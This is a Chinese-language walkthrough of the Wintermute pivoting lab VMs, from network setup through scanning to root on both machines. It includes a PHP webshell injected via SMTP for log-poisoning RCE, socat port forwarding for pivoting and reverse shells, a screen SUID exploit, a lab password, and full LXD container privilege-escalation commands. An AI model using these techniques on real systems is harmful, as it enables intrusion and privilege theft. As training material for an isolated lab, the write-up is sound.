



# 环境搭建
这是一台练习pivoting的机器，首先先配置网络
作者有给出详细解释
~~~
Wintermute Vitrual Box Setup Guide

This lab makes use of pivoting, so the VirtualBox networks need to be setup correctly. It's quick and easy with all dynamic ips.
run or Import each machine into Virtual Box ( File >> Import Applicance )

-----------------------------------------------------------------------------------

STRAYLIGHT (Network #1 & #2)
-This is the first machine to get root. Setup to be dual-homed/2 NIC's.
-Adapter 1 
	- Host-only Adapter
	- VirtualBox Host-Only Ethernet Adapter #1
	Advanced (we want 2 NIC's, each on a separate network)
	- Adapter Type - Intel PRO/1000 T Server 
-Adapter 2
	- Host-only Adapter
	- VirtualBox Host-Only Ethernet Adapter #2
	Advanced
	- Adapter Type - Intel PRO/1000 MT Desktop (or other adapter type different than network #1).

-----------------------------------------------------------------------------------

NEUROMANCER (Network #2)
-This is the final machine to get root. Setup to have 1 network. Only accessed via Straylight, using Host-Only Eth adapter #2.
-Adapter 1
	- Host-only Adapter
	- VirtualBox Host-Only Ethernet Adapter #2
	Advanced
	- Adapter Type - Intel PRO/1000 MT Desktop

-----------------------------------------------------------------------------------

KALI (Network #1)
- Your attacking machine should only be setup on the Host-Only adpater Straylight is on...and NAT if you choose.
- You should not be able to ping Neuromancer from your Kali box. If you can, you are cheating.
- Adapter 1
	- Host-only Adapter
	- VirtualBox Host-Only Ethernet Adapter #1

-----------------------------------------------------------------------------------
~~~
大体的拓扑图如下

在virtualbox中导入，其实是会自动配好网络的，保险起见多检查一下
kali

STRAYLIGHT

NEUROMANCER

# 端口扫描-STRAYLIGHT

STRAYLIGHT的IP为192.168.56.102
### 全端口扫描
~~~
┌──(kali㉿kali)-[~/STRAYLIGHT]
└─$ sudo nmap -sT -p- --min-rate 10000 192.168.56.102 -oA nmap/ports
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 03:46 EST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers: No such file or directory (2)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.102
Host is up (0.00026s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
25/tcp   open  smtp
80/tcp   open  http
3000/tcp open  ppp
MAC Address: 08:00:27:DE:F9:85 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
~~~
### 默认脚本扫描
~~~
┌──(kali㉿kali)-[~/STRAYLIGHT]
└─$ sudo nmap -sT -sV -p25,80,3000 192.168.56.102 -oA nmap/sC
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 03:47 EST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers: No such file or directory (2)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.102
Host is up (0.00039s latency).

PORT     STATE SERVICE VERSION
25/tcp   open  smtp    Postfix smtpd
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
3000/tcp open  http    Mongoose httpd
MAC Address: 08:00:27:DE:F9:85 (Oracle VirtualBox virtual NIC)
Service Info: Host:  straylight

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.27 seconds

~~~
### 漏洞脚本扫描
~~~
┌──(kali㉿kali)-[~/STRAYLIGHT]
└─$ sudo nmap -sT --script=vuln -p25,80,3000 192.168.56.102 -oA nmap/vuln
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 03:47 EST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers: No such file or directory (2)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.102
Host is up (0.00036s latency).

PORT     STATE SERVICE
25/tcp   open  smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
| ssl-dh-params: 
|   VULNERABLE:
|   Anonymous Diffie-Hellman Key Exchange MitM Vulnerability
|     State: VULNERABLE
|       Transport Layer Security (TLS) services that use anonymous
|       Diffie-Hellman key exchange only provide protection against passive
|       eavesdropping, and are vulnerable to active man-in-the-middle attacks
|       which could completely compromise the confidentiality and integrity
|       of any data exchanged over the resulting session.
|     Check results:
|       ANONYMOUS DH GROUP 1
|             Cipher Suite: TLS_DH_anon_WITH_AES_128_GCM_SHA256
|             Modulus Type: Safe prime
|             Modulus Source: Unknown/Custom-generated
|             Modulus Length: 2048
|             Generator Length: 8
|             Public Key Length: 2048
|     References:
|_      https://www.ietf.org/rfc/rfc2246.txt
80/tcp   open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|_  /manual/: Potentially interesting folder
3000/tcp open  ppp
MAC Address: 08:00:27:DE:F9:85 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 20.78 seconds

~~~
### UDP扫描
~~~
┌──(kali㉿kali)-[~/STRAYLIGHT]
└─$ sudo nmap -sU --top-ports 20 192.168.56.102 -oA nmap/UDP             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 03:49 EST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers: No such file or directory (2)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.102
Host is up (0.00033s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   closed        ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
MAC Address: 08:00:27:DE:F9:85 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 7.93 seconds

~~~
# 80(web)
访问给出了一些信息

稍微做些信息搜集 
~~~
Armitage
armitage
Wintermute
wintermute
Neuromancer
neuromancer
WINTERMUTE
STRAYLIGHT
straylight
~~~
### 目录爆破
~~~
┌──(kali㉿kali)-[~/STRAYLIGHT]                                          
└─$ sudo gobuster dir -u "http://192.168.56.102" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                                                                   
===============================================================                                                                                                                                                    
Gobuster v3.6                                                                                                                                                                                                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                                                                      
===============================================================                                                                                                                                                    
[+] Url:                     http://192.168.56.102                                                                                                                                                                 
[+] Method:                  GET                                                                                                                                                                                   
[+] Threads:                 10                                                                                                                                                                                    
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                                                                                          
[+] Negative Status codes:   404                                                                                                                                                                                   
[+] User Agent:              gobuster/3.6                                                                                                                                                                          
[+] Timeout:                 10s                                                                                                                                                                                   
===============================================================                                                                                                                                                    
Starting gobuster in directory enumeration mode                                                                                                                                                                    
===============================================================                                                                                                                                                    
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.102/manual/]                                                                                                                                
/freeside             (Status: 301) [Size: 319] [--> http://192.168.56.102/freeside/]                                                                                                                              
/server-status        (Status: 403) [Size: 302]                                                                                                                                                                    
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
~~~
看了一下freeside这个目录，没有发现什么有价值的信息，背景图片也没有隐写
因此80端口先放着，看一下3000端口
# 3000(web)
进来是一个登录页

试了一下admin::admin就直接进去了

查一下ntop是什么

似乎是一款流量监测工具，想办法查看一下版本

发现版本为2.4.180512找一下有没有可以利用的漏洞
找了一圈似乎没有可利用的
发现有两个网络接口
这是我们kali所在的网段

这应该就是机器的内网

找啊找，终于在这里发现了被访问过目录的痕迹

在80端口访问得到以下界面

submit之后

可以合理怀疑有文件包含漏洞

因为这台服务器上开启了smtp，应该想到去查看他的mail.log(可惜我没想到)

接下来我们尝试往日志里注入恶意代码
发送邮件
~~~
┌──(kali㉿kali)-[~/STRAYLIGHT]
└─$ telnet 192.168.56.102 25
Trying 192.168.56.102...
Connected to 192.168.56.102.
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from:lizi@lizi.com
250 2.1.0 Ok
rcpt to:root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject:<?php phpinfo();system($_GET['cmd']);?>
.
250 2.0.0 Ok: queued as 4A07C5514

~~~
配合包含/var/log/mail.log即可RCE
可以看到phpinfo被解析了，那我们可以传入命令了

id测试是否可用

可以用，那我们传入反弹shell

拿到shell！！！
# STRAYLIGHT提权
有以下几个用户
~~~
turing-police
postgres
wintermute
~~~
查看suid权限

发现有screen的suid权限，这是不常见的
尝试在GTFO-bins上搜索，无果
试一下找一下提权漏洞

下载41154.sh
成功提权！

在root目录找到一些信息，给我们提供了一个目录/struts2_2.3.15.1-showcase

# 内网渗透
粗略的扫描了一下内网的机器

发现有一台机器的8080端口是开放的，应该就是我们的内网机器
对他进行详细端口扫描，查看哪些端口是开放的
AI写的脚本
~~~
┌──(kali㉿kali)-[~/STRAYLIGHT]
└─$ cat port_scan.sh 
#!/bin/bash

# 检查输入的 IP 地址是否有效
if [ -z "$1" ]; then
  echo "Usage: $0 <IP address>"
  exit 1
fi

target_ip="$1"
start_port=1
end_port=65535

# 遍历端口范围并检查是否开放
for ((port=$start_port; port<=$end_port; port++)); do
    nc -zv -w 1 $target_ip $port &> /dev/null
    if [ $? -eq 0 ]; then
        echo "Port $port is open on $target_ip"
    fi
done

~~~
扫描结果有三个端口开放
~~~
www-data@straylight:/tmp$ ./port_scan.sh 192.168.58.4
./port_scan.sh 192.168.58.4
Port 8009 is open on 192.168.58.4
Port 8080 is open on 192.168.58.4
Port 34483 is open on 192.168.58.4
www-data@straylight:/tmp$ 
~~~
端口少的话我们就直接进行端口转发
## 端口转发
利用socat进行端口转发
~~~
socat -ddd TCP-LISTEN:8010,fork TCP:192.168.58.4:8009 &> /dev/null &
socat -ddd TCP-LISTEN:8081,fork TCP:192.168.58.4:8080 &> /dev/null &
socat -ddd TCP-LISTEN:34484,fork TCP:192.168.58.4:34483 &> /dev/null &
~~~

端口转发成功建立，在web端访问一下8081试试

成功
枚举一下内网机器192.168.58.4的服务
### 版本扫描
~~~
┌──(kali㉿kali)-[~/NEUROMANCER]
└─$ sudo nmap -sT -sV -p 8010,8081,34484 192.168.56.102 -oA nmap/ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-06 01:02 EST
Nmap scan report for 192.168.56.102
Host is up (0.00028s latency).

PORT      STATE  SERVICE VERSION
8010/tcp  closed xmpp
8081/tcp  open   http    Apache Tomcat 9.0.0.M26
34484/tcp open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
MAC Address: 08:00:27:DE:F9:85 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.24 seconds

~~~
### 默认脚本扫描
~~~
┌──(kali㉿kali)-[~/NEUROMANCER]
└─$ sudo nmap -sT -sV -sC -p 8010,8081,34484 192.168.56.102 -oA nmap/sC   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-06 01:03 EST
Nmap scan report for 192.168.56.102
Host is up (0.00024s latency).

PORT      STATE  SERVICE VERSION
8010/tcp  closed xmpp
8081/tcp  open   http    Apache Tomcat 9.0.0.M26
|_http-title: Apache Tomcat/9.0.0.M26
|_http-favicon: Apache Tomcat
34484/tcp open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:9b:4a:a9:c0:fc:0b:d8:ef:f1:e3:9d:f4:59:25:32 (RSA)
|   256 f6:2a:de:07:36:36:00:e9:b5:5d:2f:aa:03:79:91:d1 (ECDSA)
|_  256 38:3c:a8:ed:91:ea:ce:1d:0d:0f:ab:51:ac:97:c8:fb (ED25519)
MAC Address: 08:00:27:DE:F9:85 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.78 seconds

~~~
### web目录扫描
~~~
┌──(kali㉿kali)-[~/NEUROMANCER]
└─$ sudo gobuster dir -u "http://192.168.56.102:8081" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.102:8081
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 0]
/http%3A%2F%2Fblog    (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 0]
/External%5CX-News    (Status: 400) [Size: 0]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 0]
/http%3A%2F%2Fradar   (Status: 400) [Size: 0]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 0]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 0]
/http%3A%2F%2Fswik    (Status: 400) [Size: 0]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
~~~
先前我们得到了一个目录，访问一下

找到一个上传文件的入口

在starylight上设置一个反向端口转发
~~~
socat -ddd TCP-LISTEN:5555,fork TCP:192.168.56.101:4444 &> /dev/null &
~~~
以便反弹shell
发现有RCE，但是这个需要requests库，而我们的靶机上没有，只能寻找其他利用

找到了可利用的[exp](https://github.com/rapid7/metasploit-framework/issues/8064)

先把shell弹回来

搜集一下信息
在tomcat-users.xml中找到登录凭据

是HTML硬编码，解码得到

~~~
>!Xx3JanexX!<
~~~
ssh连接

一番枚举后没发现什么信息，回过头看看

发现ta在lxd组中
参考这篇[文章](https://reboare.github.io/lxd/lxd-escape.html)，我们进行提权
在这之前，我们先使我们可以ssh登录ta用户（ssh-keygen）

先下载一个镜像https://github.com/saghul/lxd-alpine-builder.git
用scp把文件上传上去

lxd提权
~~~
ta@neuromancer:/tmp$ lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lizi
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b

ta@neuromancer:/tmp$ lxc image list
+-------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+-------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| lizi  | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Nov 6, 2024 at 9:25am (UTC) |
+-------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
ta@neuromancer:/tmp$ lxc init lizi -c security.privileged=true
Creating the container
Container name is: master-catfish
ta@neuromancer:/tmp$ lxc list
+----------------+---------+------+------+------------+-----------+
|      NAME      |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+----------------+---------+------+------+------------+-----------+
| master-catfish | STOPPED |      |      | PERSISTENT | 0         |
+----------------+---------+------+------+------------+-----------+
ta@neuromancer:/tmp$ lxc config device add master-catfish whatever disk source=/ path=/mnt/root recursive=true
Device whatever added to master-catfish

~~~
~~~

ta@neuromancer:/tmp$ lxc start master-catfish
ta@neuromancer:/tmp$ lxc exec master-catfish bash
ta@neuromancer:/tmp$ lxc exec master-catfish /bin/sh
~ # whoami
root
~ # 

~~~
至此提权成功
